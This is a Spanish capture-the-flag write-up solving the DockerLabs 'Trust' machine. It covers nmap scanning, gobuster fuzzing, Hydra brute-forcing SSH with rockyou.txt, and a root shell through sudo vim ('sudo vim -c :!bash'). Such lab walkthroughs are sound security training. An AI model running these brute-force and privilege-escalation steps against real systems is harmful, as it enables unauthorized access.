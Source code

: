 
# Trust - Resolviendo la Máquina

## Introducción
Hola, bienvenidos y bienvenidas. Vamos a resolver una máquina de la plataforma DockerLabs llamada **Trust**. A continuación, verás paso a paso cómo se resuelve. ¡¡Que te diviertas!!

---

## Iniciando la Máquina
### Comprobando Conexión
Hacemos un ping a la máquina para comprobar la conexión:

```bash
ping -c 1 172.18.0.2
```

---

## Escaneo de Puertos
Utilizamos `nmap` con la IP proporcionada por DockerLabs para ver los puertos abiertos:

```bash
sudo nmap -p- –open -sS –min-rate 5000 -vvv -n -Pn 172.18.0.2
```

Resultados relevantes:
- Puerto **22** (SSH) abierto.
- Puerto **80** (HTTP) abierto.

---

## Análisis del Sitio Web


![login](https://github.com/xavis3c/Writeups-dockerlabs/blob/Recursos/debian-web.png)




Accedemos al sitio en el navegador y vemos que es la página por defecto de Apache2. No encontramos nada interesante, así que seguimos con más pruebas.

### Fuzzing con Gobuster
Ejecutamos Gobuster para encontrar directorios y archivos ocultos:

```bash
gobuster dir -u "http://172.18.0.2/" -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,txt,py,bak,php.bak
```

Explicación:
- `dir` → Escaneo de directorios y archivos.
- `-u` → URL objetivo (`http://http://172.18.0.2`).
- `-w` → Lista de palabras con nombres comunes de directorios/archivos.
- `-x` → Prueba archivos con extensiones específicas.

Descubrimos un archivo **/secret.php**. Nos dirigimos a él en el navegador con:

```bash
http://http://172.18.0.2//secret.php
```

Este archivo nos revela que existe un usuario llamado **Mario**.

![login](https://github.com/xavis3c/Writeups-dockerlabs/blob/Recursos/hola-mario.png)




---

## Ataque de Fuerza Bruta con Hydra
Dado que conocemos el usuario **Mario**, realizamos un ataque de fuerza bruta con Hydra sobre el puerto SSH:

```bash
hydra -l mario -P /usr/share/wordlists/rockyou.txt ssh://172.18.0.2 -t 4
```

Explicación:
- `-l mario` → Usuario objetivo.
- `-P /usr/share/wordlists/rockyou.txt` → Lista de contraseñas a probar.
- `ssh` → Servicio objetivo (SSH).
- `-t 4` → Usa 4 hilos para acelerar el ataque.

Hydra nos da la contraseña **chocolate**.

Nos conectamos por SSH con:

```bash
ssh mario@172.18.0.2
```

---

## Escalada de Privilegios
Ya dentro de la máquina como Mario, buscamos formas de escalar privilegios.

Ejecutamos:

```bash
sudo -l
```

Descubrimos que podemos ejecutar **/usr/bin/vim** con privilegios elevados. Buscamos en GTFOBins y encontramos que podemos obtener una shell de root con el siguiente comando:

```bash
sudo vim -c ':!bash'
```

Verificamos con:

```bash
whoami
```

¡Ahora somos **root**!

---

¡Máquina resuelta!

